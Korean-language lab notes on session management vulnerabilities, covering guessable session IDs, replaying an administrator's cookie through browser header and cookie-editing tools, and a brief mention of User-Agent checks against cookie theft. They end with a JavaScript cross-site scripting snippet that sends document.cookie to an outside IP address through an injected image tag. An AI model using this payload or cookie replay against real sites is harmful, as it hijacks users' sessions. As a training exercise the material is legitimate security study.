 # 세션 및 인증 관리 취약점



## 세션 관리 취약점

---

### 발생원인

- 추측이 가능한 세션 ID

## 실습

---

- Live HTTP Headers 에서 관리자 쿠키(cookie) 값을 확인
- 브라우저 상단에서 쿠키 값 설정 (Edit Cookie)

    ![Untitled/Untitled.png](Untitled/Untitled.png)

- 쿠키 값만을 사용한 접근

    ![Untitled/Untitled%201.png](Untitled/Untitled%201.png)

(최근) 
쿠키 탈취로 인한 부적절한 서비스 접근을 방지하기 위해 Request Header 내 User-Agent 정보를 활용

```javascript
<div id='img'></div>
<script>document.getElementById("img").innerHTML="
<img src='http://70.12.225.87:8181/openeg/test/a.do?	sessionid="+document.cookie+"' />";
</script>
```